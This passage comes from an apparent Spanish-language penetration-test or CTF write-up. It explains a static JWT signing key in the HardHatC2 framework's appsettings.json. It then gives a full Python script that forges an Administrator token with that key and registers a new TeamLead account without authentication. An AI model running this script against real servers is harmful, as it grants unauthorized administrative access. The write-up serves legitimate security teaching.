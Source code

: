 Por defecto, HardHatC2 genera automáticamente una contraseña para la cuenta **HardHat\_Admin**, la cual se muestra solo una vez al inicio. Sin embargo, el sistema utiliza una **clave estática de firma JWT** almacenada en `appsettings.json`, que permite a los atacantes generar tokens JWT válidos sin necesidad de autenticación.

Con esta vulnerabilidad, se puede usar el JWT para forjar un token y crear usuarios administradores sin necesidad de autenticarse.

Basándonos en el acceso a los puertos y en el archivo `.txt` inicial, donde se mencionaba que el framework había sido instalado con configuración por defecto, decidimos probar esta vulnerabilidad

{% code title="Bypass.py" %}
```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests

rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "gzzcoo",
  "role": "TeamLead",
  "username": "gzzcoo"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```
{% endcode %}

